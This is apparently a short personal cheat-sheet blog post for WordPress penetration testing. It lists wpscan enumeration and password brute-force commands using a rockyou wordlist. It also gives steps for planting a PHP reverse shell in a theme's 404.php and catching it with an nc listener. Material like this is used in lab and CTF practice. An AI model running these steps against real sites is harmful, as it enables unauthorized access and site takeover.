 ```yaml
---
layout: post
title:  "WordPress"
date:   2022-01-01
categories: web
---
```


## Enumeration

```bash

wpscan --rua -e --url http://<ip>:<port>/<uri>/

```

## Brute force

```bash

wpscan --rua --url http://<ip>:<port>/<uri>/ -P /usr/share/wordlists/rockyou.txt -U user

```

## Reverse Shell

```

Login -> Appearance -> Theme Editor -> Twenty Seventeen: 404 Template (404.php)

Change the content of the 404.php with this : /usr/share/webshells/php/php-reverse-shell.php

Listener: nc -nlvp 4444

Trigger the Reverse Shell : http://<ip>:<port>/<uri>/wp-content/themes/twentyseventeen/404.php

```

